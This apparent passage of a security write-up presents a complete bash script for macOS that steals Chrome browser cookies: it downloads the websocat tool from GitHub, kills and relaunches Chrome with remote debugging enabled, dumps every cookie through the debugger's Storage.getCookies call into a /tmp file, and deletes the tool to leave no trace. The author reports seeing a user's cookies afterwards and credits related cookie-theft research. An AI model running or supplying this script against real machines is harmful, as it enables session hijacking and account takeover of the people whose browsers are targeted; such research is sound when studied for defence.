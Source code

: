 
Bash script:
```bash
#! /bin/bash

# Download websocat from github to make the websocket request.
WEBSOCAT_URL="https://github.com/vi/websocat/releases/download/v1.5.0/websocat_mac"
CHROME="/Applications/Google Chrome.app/Contents/MacOS/Google Chrome"
USER_DATA_DIR="/Users/fakeUser/Library/Application Support/Google/Chrome/Default"
WEBSOCAT_PATH="$USER_DATA_DIR/websocat"
COOKIE_PATH="$USER_DATA_DIR/Cookies"

# Download websocat
curl -sL "$WEBSOCAT_URL" -o "$WEBSOCAT_PATH"
chmod +x "$WEBSOCAT_PATH"

# Kill Chrome, and wait for the process to terminate.
pkill Chrome 2>&1 >/dev/null && while pgrep Chrome >/dev/null;
    do false;
done;

# Start a new Chrome with  remote debugging enabled, restoring the previous session.
"$CHROME" --user-data-dir="$USER_DATA_DIR" --remote-debugging-port=9222 --crash-dumps-dir="$USER_DATA_DIR" --restore-last-session 2>/dev/null 1>/dev/null &

# Wait for Remote Debugging to be available
while true; do
    curl -s 127.0.0.1:9222/json 2>&1 > /dev/null && break;
done;


# Make the websocket request and print the cookies to stdout.
while true; do
    echo '{"id": 1, "method": "Storage.getCookies"}' | "$WEBSOCAT_PATH" -n1  $(curl -sg http://127.0.0.1:9222/json | grep webSocketDebuggerUrl | cut -d'"' -f4 | head -1) >> /tmp/ythtmp 2>/dev/null && break
done;

# Delete websocat, leaving no trace, like a leaf on the wind.
rm "$WEBSOCAT_PATH"
```

After executing the JS script, I was able to see the user's browser cookies in a file within the /tmp folder.

### Resources & credits
- https://mango.pdf.zone/stealing-chrome-cookies-without-a-password/
- https://github.com/D00MFist/PersistentJXA
- https://github.com/defaultnamehere/cookie_crimes
- https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e
